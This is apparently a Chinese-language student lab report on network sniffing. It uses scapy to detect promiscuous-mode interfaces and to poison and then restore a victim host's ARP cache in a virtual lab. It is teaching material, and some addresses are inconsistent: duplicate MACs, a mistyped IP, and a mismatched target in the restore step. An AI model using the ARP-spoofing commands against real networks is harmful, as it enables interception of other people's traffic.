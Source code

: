 # 第四章实验：网络监听
## 网络拓扑结构

![](img/1.png)

网络中的节点基本信息如下：
```
攻击者主机：Kali-attacker
08:00:27:0e:34:8d / eth0
172.16.111.112/24

受害者主机：Kali-victim-1
08:00:27:0e:34:8d/ eth0
172.16.111.111/24

网关：Debian-gateway
08:00:27:4d:d4:ab/ enp0s9
172.16.111.1/24
```     

## 安装scapy

- 首先在攻击主机上安装scapy,并且安装好python3
```
sudo apt update && sudo apt install python3 python3-pip

pip3 install scapy[complete]
```

![](img/2.png)

![](img/3.png)

## 实验一：检测局域网中的异常终端

- 首先在受害者主机上检查网卡的混杂模式是否启用

  ip link show eth0

  ![](img/4.png)

- 之后在攻击者主机上开启 scapy

  sudo scapy

  ![](img/5.png)

- 开启scapy之后，在scapy的交互式终端输入以下代码回车执行：
  ```
  pkt = promiscping("172.168.56.111")
  ```
  
  ![](img/6.png)

- 回到受害者主机上手动开启该网卡的「混杂模式」
  ```
  sudo ip link set eth0 promisc on
  ```
  
- 再次检查混杂模式状态，发现输出结果里多出来了 PROMISC
  ```
  ip link show eth0
  ```

  ![](img/7.png)

- 回到攻击者主机上的 scapy 交互式终端继续执行命令
  ```
  pkt = promiscping("172.16.111.111")
  ```
  两次pkt结果对比:

  ![](img/8.png)  

- 在受害者主机上手动关闭该网卡的「混杂模式」
  ```
  sudo ip link set eth0 promisc off
  ```

## 实验二：手工单步“毒化”目标主机的 ARP 缓存
- 受害者主机初始ARP缓存信息
 
  ![](img/9.png) 

以下代码在攻击者主机上的 scapy 交互式终端完成

- 构造一个 ARP 请求
  ```
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
  ```

- 查看构造好的 ARP 请求报文详情
  ```
  arpbroadcast.show()
  ```
 
  ![](img/10.png) 

- 发送这个 ARP 广播请求
  ```
  recved = srp(arpbroadcast, timeout=2)
  ```

  ![](img/11.png) 

- 伪造网关的 ARP 响应包，准备发送给受害者主机 172.16.111.108，ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  ```
  arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.111",hwdst="08:00:27:0e:34:8d")
  ``` 
- 发送上述伪造的 ARP 响应数据包到受害者主机
  ```
  sendp(arpspoofed)
  ```

  ![](img/12.png) 

- 此时在受害者主机上查看 ARP 缓存，会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址
  ```
  ip neigh
  ```
  
  ![](img/13.png)  

回到攻击者主机上的 scapy 交互式终端继续执行命令。

- 恢复受害者主机的 ARP 缓存记录

  - 伪装网关给受害者发送 ARP 响应
  ```
  restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:10:ea:af", pdst="172.16.111.108", hwdst=" 08:00:27:52:c6:b2")

  sendp(restorepkt1, count=100, inter=0.2)
  ```
  
  ![](img/14.png) 

此时在受害者主机上准备“刷新”网关 ARP 记录。

- 在受害者主机上尝试 ping 网关
  ```
  ping 172.16.111.1
  ```
- 静候几秒 ARP 缓存刷新成功，退出 ping

- 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  ```
  ip neigh
  ```

  ![](img/15.png)   

## 参考资料

- [2020-ns-public-Crrrln](https://github.com/CUCCS/2020-ns-public-Crrrln/blob/chap0x04/chap0x04/exp4.md)
